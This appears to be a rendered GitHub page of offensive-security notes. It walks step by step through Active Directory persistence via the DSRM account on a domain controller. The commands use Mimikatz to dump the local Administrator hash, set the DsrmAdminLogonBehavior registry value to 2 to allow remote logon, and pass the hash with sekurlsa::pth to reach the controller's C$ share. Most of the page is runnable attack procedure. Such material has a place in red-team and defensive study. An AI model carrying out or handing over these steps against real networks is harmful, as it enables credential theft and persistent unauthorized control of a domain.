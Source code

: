 ```yaml
---
legal-banner: true
---
```


### **Overview**

Domain Controllers (DCs) have a local Administrator account that can be leveraged for persistence.  
By gaining administrative privileges on a DC and dumping the local Administrator hash, you can modify the registry to enable remote access to this account.  

### **Procedure for Enabling Remote DSRM Account Access**

1. Dump the hash of the local Administrator account on the DC using Mimikatz:  
   ```powershell
   Invoke-Mimikatz -Command '"token::elevate" "lsadump::sam"'
   ```

2. Modify the registry to enable remote access.  
   The registry key `DsrmAdminLogonBehavior` controls whether the Directory Services Restore Mode (DSRM) account can log on remotely:  
   `0` → Default (remote login disabled)  
   `1` → Allow remote login if explicitly enabled  
   `2` → Always allow remote login  
   **NOTE:** Setting the value to **2** ensures that the DSRM/local Administrator account can be used for remote logins.  

3. Check if the key exists and get its value:  
   ```powershell
   Get-ItemProperty "HKLM:\SYSTEM\CurrentControlSet\Control\LSA" -Name DsrmAdminLogonBehavior
   ```

4. Create the key with value `2` if it does not exist:  
   ```powershell
   New-ItemProperty "HKLM:\SYSTEM\CurrentControlSet\Control\LSA" -Name DsrmAdminLogonBehavior -Value 2 -PropertyType DWORD
   ```

5. Change the value to `2` if it exists but is set incorrectly:  
   ```powershell
   Set-ItemProperty "HKLM:\SYSTEM\CurrentControlSet\Control\LSA" -Name DsrmAdminLogonBehavior -Value 2
   ```

6. Perform Pass-the-Hash (PTH) to gain access, use the dumped hash to authenticate and access the DC remotely. Note: the "domain" used is the name of the DC machine.  

7. Use `sekurlsa::pth` to pass the hash:  
   ```bash
   sekurlsa::pth /domain:[DC_MACHINE_NAME] /user:[USERNAME] /ntlm:[HASH] /run:[CMD]
   ```

8. Example — list the contents of the `C$` share:  
   ```bash
   ls \\[DC_MACHINE_NAME]\C$
   ```
